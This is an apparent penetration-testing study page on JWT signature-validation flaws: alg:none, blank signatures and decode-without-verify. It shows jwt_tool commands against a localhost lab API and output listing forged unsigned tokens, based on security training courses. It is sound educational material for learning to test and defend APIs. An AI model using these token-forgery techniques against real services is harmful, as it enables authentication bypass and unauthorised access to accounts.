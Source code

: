 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Signature Validation

{% hint style="success" %}
JWT **signature validation** involves verifying that the token's signature is legitimate and has not been tampered with. This process uses a cryptographic algorithm and a secret key (or public key, in the case of asymmetric algorithms) to ensure that the token was created by a trusted source and that its content remains unchanged. Proper signature validation prevents attackers from altering the token's claims or creating forged tokens.



**Servers** don't store any JWT-related information, thus, they **don't know anything about its contents**!
{% endhint %}

## None Algorithm

After obtaining a JWT, we can start by auditing it by using an endpoint which process the token in some way, i.e., sends back different responses if the token is and it isn't present (Figure 1).

The JWT header contains an `alg` parameter which tells the server which algorithm was used to sign the token, i.e., which alogirthm it needs to use when veryfing the signature. **This is inherently flawed as it is user-controlled**. JWTs can be also left unsigned using `"alg":"none"`, aka _**unsecure JWT**_. Servers usually reject this tokens, but since this relies on string parsing, it can be obfuscated.

{% hint style="danger" %}
Even if the token is unsigned, **the payload part must end with a trailing dot**.
{% endhint %}

> _The below example is based on TCM's_ [_Practical API Hacking_](https://academy.tcm-sec.com/p/hacking-apis) _course._

<figure><img src="../../../../../.gitbook/assets/jwt_sign_validation.png" alt=""><figcaption><p>Figure 1: Finding an appropriate endpoint.</p></figcaption></figure>

We can then audit the JWT (Figure 2).

{% code overflow="wrap" %}
```bash
$ jwt_tool -t http://localhost:8888/identity/api/v2/user/dashboard -rh 'Authorization: Bearer eyJhbGciOiJSUzI1NiJ9.eyJzdWIiOiJ0ZXN0X3RjbUBnbWFpbC5jb20iLCJyb2xlIjoidXNlciIsImlhdCI6MTcxOTI5NjM4OCwiZXhwIjoxNzE5OTAxMTg4fQ.BlO4H5UQM_maTkbRtwBhGags2DSIXxOI-mvUW1A4IRBb0VLshF_xIP74Rm-e1BjhyCKHqIuRp9GKRlse4CgY2CwpiNYbDFrbnYLNvfqzOoc1VRs-sUbhpq24h4mIZK1OJ3Jktd3fwMWEd1MolUFtO8WgaI0NVXwdi0jStFVXbnwZ0MU-HzOW7sK1aUCBuI6hAqrsZMf0iXYl5qhjGIDQ8VLcOPAhdr4-Yf-S4B2dhxjx2dxFZYZHvZAeZ4FHEkJa-IlDCeE_OmIKyQKF_03CRmKB0KHrX5TBxgitzDraSgoeKjeI-E8Zz7cchxK53otrD0tKbNEHC_N2p1cGrts_BQ' -M at
```
{% endcode %}

<figure><img src="../../../../../.gitbook/assets/jwt_sign_validation_1.png" alt=""><figcaption><p>Figure 2: Auditing the JWT using <code>jwt_tool</code>.</p></figcaption></figure>

We could then use Burp's [JWT Editor](https://portswigger.net/bappstore/26aaa5ded2f74beea19e2ed8345a93dd) extension to validate the `alg:none` vulnerability (Figure 3 & 4).

<figure><img src="../../../../../.gitbook/assets/jwt_sign_validation_2.png" alt=""><figcaption><p>Figure 3: Validating the <code>alg:none</code> attack.</p></figcaption></figure>

<figure><img src="../../../../../.gitbook/assets/jwt_sign_validation_3.png" alt=""><figcaption><p>Figure 4: The server sends a <code>200</code> without validating the JWT signature (BOLA).</p></figcaption></figure>

## Blank Signature

We can generate a token without a signature and see how the server responds.

> _The below example is based on APISEC University's course_ [_API Penetration Testing_](https://www.apisecuniversity.com/courses/api-penetration-testing)_._

{% code overflow="wrap" %}
```bash
$ jwt_tool.py <JWT> -X a

Original JWT:

jwttool_a7333a823ae2439cb9a1f625cf57874a - EXPLOIT: "alg":"none" - this is an exploit targeting the debug feature that allows a token to have no signature
(This will only be valid on unpatched implementations of JWT.)
[+] eyJhbGciOiJub25lIn0.eyJzdWIiOiJ0ZXN0MDJAdGVzdC5jb20iLCJyb2xlIjoidXNlciIsImlhdCI6MTcxNjQ3NDcwNCwiZXhwIjoxNzE3MDc5NTA0fQ.
jwttool_ba16d4490898e1a275865d6054d29218 - EXPLOIT: "alg":"None" - this is an exploit targeting the debug feature that allows a token to have no signature
(This will only be valid on unpatched implementations of JWT.)
[+] eyJhbGciOiJOb25lIn0.eyJzdWIiOiJ0ZXN0MDJAdGVzdC5jb20iLCJyb2xlIjoidXNlciIsImlhdCI6MTcxNjQ3NDcwNCwiZXhwIjoxNzE3MDc5NTA0fQ.
jwttool_933d31b931b0cde418923bd086cb24b8 - EXPLOIT: "alg":"NONE" - this is an exploit targeting the debug feature that allows a token to have no signature
(This will only be valid on unpatched implementations of JWT.)
[+] eyJhbGciOiJOT05FIn0.eyJzdWIiOiJ0ZXN0MDJAdGVzdC5jb20iLCJyb2xlIjoidXNlciIsImlhdCI6MTcxNjQ3NDcwNCwiZXhwIjoxNzE3MDc5NTA0fQ.
jwttool_779c72e9bb024b8feebb000aaf8f8b96 - EXPLOIT: "alg":"nOnE" - this is an exploit targeting the debug feature that allows a token to have no signature
(This will only be valid on unpatched implementations of JWT.)
[+] eyJhbGciOiJuT25FIn0.eyJzdWIiOiJ0ZXN0MDJAdGVzdC5jb20iLCJyb2xlIjoidXNlciIsImlhdCI6MTcxNjQ3NDcwNCwiZXhwIjoxNzE3MDc5NTA0fQ.

# Copy this token to a request and see how it responds
```
{% endcode %}

## Arbitraty Signature

JWT libraries usually provide 2 methods, one for verification and one for decoding. For example, Node.js's `jsonwebtoken` library has the `verify()` and `decode()` methods. If a developer only use the latter the application won't verify the signature at all. In this case, it is possible to modify a claim directly (Figure 5).

> _The below example is base on PortSwigger's_ [_JWT attacks_](https://portswigger.net/web-security/jwt) _module._

<figure><img src="../../../../../.gitbook/assets/jwt_arbitraty_sign.png" alt=""><figcaption><p>Figure 5: Modifying the <code>sub</code> claim results in an altered signature which is accepted by the server.</p></figcaption></figure>
